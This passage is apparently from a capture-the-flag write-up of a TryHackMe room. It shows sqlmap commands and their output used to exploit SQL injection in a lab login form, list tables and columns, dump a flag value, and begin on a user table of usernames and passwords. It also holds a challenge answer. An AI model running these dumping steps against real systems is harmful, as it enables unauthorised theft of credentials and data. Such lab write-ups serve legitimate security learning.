 Now that we have the database, let's dump the tables:

~~~
$ python /data/src/sqlmap-dev/sqlmap.py -r login.xml -D THM_f0und_m3 --tables

[REDACTED]

Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
~~~

Let's see the structure of the `nothing_inside` table:

~~~
$ python /data/src/sqlmap-dev/sqlmap.py -r login.xml -D THM_f0und_m3 -T nothing_inside --columns

[REDACTED]

Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+
~~~

Only 1 field, let's dump the table:

~~~
$ python /data/src/sqlmap-dev/sqlmap.py -r login.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"

[REDACTED]

select Easter_4 from nothing_inside [1]:
[*] THM{1nj3c7_l1k3_4_b055}
~~~

Easter 4: `THM{1nj3c7_l1k3_4_b055}`

# Easter 5

*Hint: Another sqli*

Still using the same SQL injection as for easter 4, let's dump the user table:

~~~
$ python /data/src/sqlmap-dev/sqlmap.py -r login.xml -D THM_f0und_m3 -T user --columns

[REDACTED]

Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+
~~~
